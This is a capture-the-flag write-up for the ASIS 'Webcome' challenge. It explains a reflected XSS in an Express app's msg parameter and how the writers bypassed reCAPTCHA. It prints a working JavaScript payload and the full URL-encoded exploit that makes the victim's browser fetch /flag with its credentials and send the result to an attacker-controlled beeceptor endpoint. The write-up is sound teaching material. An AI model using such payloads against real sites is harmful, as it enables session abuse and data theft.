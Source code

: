 # Webcome


## Description
Welcome! I made a [website](http://65.21.255.24:5000/).

Download the source code from [here](https://asisctf.com/tasks/welcome_697082013f8f7b6f0ed025f77272fc65082eb3dc.txz).

## Write UP

In this challenge, the goal is to visit `/flag` route with a
secret cookie after solving a captcha. The website also has a `/report` path, which you can make the server visit a website in the backend. Analyzing the code, we encountered some interesting parts in the homepage code:

```javascript
app.get('/',(req,res)=>{
	var msg = req.query.msg
	if(!msg) msg = `Yo you want the flag? solve the captcha and click submit.\\nbtw you can't have the flag if you don't have the secret cookie!`
	msg = msg.toString().toLowerCase().replace(/\'/g,'\\\'').replace('/script','\\/script')
	res.send(indexHtml.replace('$MSG$',msg))
})
```
In case a query parameter exists, after some naive sanitization, it is replaced in place of `$MSG$` in the `index.html` file:
```html
<script>
    msg.innerText = '$MSG$';
</script>
```
So our initial guess is to perform some XSS attack.


### Failed Attempts
1. First, we tried to somehow gain access to the secret cookie, which is set with the following code:
```javascript
await page.setCookie({
		name: 'secret_token',
		value: secretToken,
		domain: challDomain,
		httpOnly: true,
		secret: false,
		sameSite: 'Lax'
	})
```
But the security niceties are well observed, and it seems like it is not possible to get the cookie maliciously.

Especially, `httpOnly` prevents JavaScript from accessing this token, and hence, we cannot use simple `document.cookie` XSS.

1. We encountered this line in the code:
```javascript
app.use(bodyParser.urlencoded({ extended: true }));
```
That simply allows the user to pass advanced formatted queries, which may help bypass some security measurements if not applied cautiously. But we could not get much use of it. (We were thinking of ways to somehow bypass `msg` query sanitizations, or even manipulate the captcha verification process by crafting a special value for `g-recaptcha-response`, which gets passed to the `/flag` path is used to authenticate the solved captcha).

### Solution
We first tried to reconstruct the captcha on our end by getting its required parameters from the backend server. After some investigation, it turned out to be too complex, so we dumped the idea.

#### Bypassing ReCaptcha
We first tried to reconstruct the captcha on our end by getting its required parameters from the backend server. After some investigation it turned out to be too advanced so we dumped the idea.

Our final workaround was to solve a captcha on our end and capture its `g-recaptcha-response` before reaching the server and send it to our script, hoping it would work, which it turned out to do :))

The script that we used was the following:
```javascript
headers = {method: "GET"};
let data = "g-recaptcha-response=";
fetch(url = `https://larmol.free.beeceptor.com/`, headers = headers).then(async response => {
    let t = await response.text();
    data = data.concat(t);
    headers = {
        method: "POST",
        body: data,
        headers: {"Content-Type": "application/x-www-form-urlencoded"},
        credentials: "include"
    };
    fetch(url = `http://65.21.255.24:5000/flag`, headers).then(async response => {
        headers = {method: "GET"};
        let t = await response.text();
        fetch(url = `https://larmol.free.beeceptor.com/${t}`, headers)
    });
});
```
This script does the following steps:

1. Gets the `g-recaptcha-response` from an endpoint that we created, providing it with our solved captcha.
2. Creates a request containing the `g-recaptcha-response` parameter and sends it to the `/flag` route, obtaining the flag.
3. Sends the flag to our endpoint in the URL (we could have sent it way better, but we were too tired ^__^)

We needed to encode our script in the URL. Our final crafted URL was this:
```
http://65.21.255.24:5000/?msg=%5C';headers=%7Bmethod:%22GET%22%7D;let%20data%20=%20%22g-recaptcha-response=%22;fetch(url=%60https://larmol.free.beeceptor.com/%60,%20headers=headers).then(async%20response%20=%3E%20%7Blet%20t=await%20response.text();data%20=%20data.concat(t);headers%20=%20%7Bmethod:%22POST%22,body:%20data,headers:%20%7B%22Content-Type%22:%20%22application/x-www-form-urlencoded%22%7D,credentials:%20%22include%22%7D;fetch(url=%60http://65.21.255.24:5000/flag%60,%20headers).then(async%20response%20=%3E%20%7Bheaders=%7Bmethod:%22GET%22%7D;let%20t%20=%20await%20response.text();fetch(url=%60https://larmol.free.beeceptor.com/$%7Bt%7D%60,%20headers)%7D);%7D);//
```

We had to add `\\';` and `//` to the beginning and end of our query, respectively, to escape from the naive filtering mentioned and get our script out of the `'$MSG$'` quotes to get it running.

Submitting the URL, we get the flag on our endpoint:
```
ASIS{welcomeeeeee-to-asisctf-and-merry-christmas}
```